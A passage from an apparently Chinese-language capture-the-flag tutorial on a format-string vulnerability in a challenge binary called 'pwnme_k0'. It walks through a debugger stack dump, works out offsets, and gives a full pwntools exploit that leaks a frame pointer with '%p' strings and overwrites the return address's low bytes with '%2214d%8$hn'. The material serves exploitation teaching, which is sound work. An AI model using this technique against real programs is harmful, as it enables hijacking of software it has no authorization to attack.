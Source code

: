 可以发现我们输入的用户名在栈上第三个位置，那么除去本身格式化字符串的位置，其偏移为为5+3=8。

### 修改地址

我们再仔细观察下断点处栈的信息

```text
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```

可以看到栈上第二个位置存储的就是该函数的返回地址(其实也就是调用showaccounth函数时执行push rip所存储的值)，在格式化字符串中的偏移为7。

与此同时栈上，第一个元素存储的也就是上一个函数的rbp。所以我们可以得到偏移0x00007fffffffdb80-0x00007fffffffdb48=0x38。继而如果我们知道了rbp的数值，就知道了函数返回地址的地址。

0x0000000000400d74与0x00000000004008A6只有低2字节不同，所以我们可以只修改0x00007fffffffdb48开始的2个字节。

### 利用程序

这里使用data[1:]的原因是当我们split的时候由于起始的是0x，所以会产生‘’字符串，需要跳过。

```python
from pwn import *
from LibcSearcher import *
pwnme = ELF('./pwnme_k0')
if args['REMOTE']:
    sh = remote(11, 11)
else:
    sh = process('./pwnme_k0')
sh.recvuntil(':\n')
sh.sendline('a' * 8)
sh.recvuntil(':\n')
sh.sendline('%p' * 9)
sh.recvuntil('>')
sh.sendline('1')
sh.recvuntil('a' * 8 + '\n')
data = sh.recvuntil('1.', drop=True).split('0x')
print data
data = data[1:]
rbp = int(data[5], 16)
ret_addr = rbp - 0x38
sh.recvuntil('>')
sh.sendline('2')
sh.recvuntil(':\n')
sh.sendline(p64(ret_addr))
sh.recvuntil(':\n')
payload = '%2214d%8$hn'
sh.sendline(payload)
sh.recvuntil('>')
sh.sendline('1')
sh.interactive()
```
